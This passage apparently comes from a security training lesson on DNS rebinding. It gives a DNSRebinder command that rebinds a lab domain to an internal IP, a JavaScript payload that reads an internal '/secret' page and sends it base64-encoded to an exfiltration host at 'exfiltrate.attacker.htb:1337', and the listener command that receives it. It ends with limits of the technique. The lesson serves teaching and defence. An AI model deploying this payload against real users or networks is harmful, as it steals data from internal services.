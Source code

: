 After configuring the proper DNS `NS` entry, we can use `DNSRebinder` for the DNS rebinding attack on our domain `http://www.attacker.htb`, with the public IP address of our web server replacing `$PUBLIC_WEBSERVER_IP`:

```bash
sudo python3 dnsrebinder.py --domain www.attacker.htb. --rebind 192.168.178.1 --ip $PUBLIC_WEBSERVER_IP --counter 1 --tcp --udp
```

Finally, we need to host the following payload on our web server and start our exfiltration server at `http://exfiltrate.attacker.htb:1337`:

```html
<script>
    startAttack();

    function startAttack(){
        var xhr = new XMLHttpRequest();
        xhr.open('GET', 'http://www.attacker.htb/secret', true);
        xhr.onload = () => {
          fetch('http://exfiltrate.attacker.htb:1337/log?data=' + btoa(xhr.response));
        };
        xhr.send();

    setInterval(startAttack, 2000);
    }
</script>
```


The payload calls itself every 2 seconds to increase the probability of a successful attack. If a victim accesses our website at `http://www.attacker.htb`, DNSRebinder executes the DNS rebinding such that we simply have to wait for the request to our exfiltration server:

```shell-session
python3 -m http.server 1337  
```

Therefore, the attacker can successfully exfiltrate secret data, regardless of the web application being only accessible from the internal network.

## Restrictions

Internal applications protected by authentication are effectively safe from DNS rebinding attacks because the session cookies of victims are not sent with requests, even if they are logged in to the internal application. That is because the victim's browser thinks it is communicating with the origin `http://attacker.htb` and thus sends cookies associated with this origin with the request. Potential session cookies stored for the origin `http://192.168.178.1` are not sent alongside the request since the origin differs, even though the domain name `attacker.htb` resolves to `192.168.178.1`. Therefore, attackers cannot perform authenticated actions when conducting DNS rebinding attacks if they do not possess valid credentials.

Since session cookies are not sent alongside requests, targeting publicly accessible applications/endpoints is often inadvisable; however, there are a few exceptions. An example is an IP-based authentication web application, which allows access to only a whitelist of IP addresses. Attackers could bypass these web applications using DNS rebinding. However, CSRF-like vulnerabilities generally do not arise from DNS rebinding since the requests are unauthenticated due to a lack of session cookies in the request.
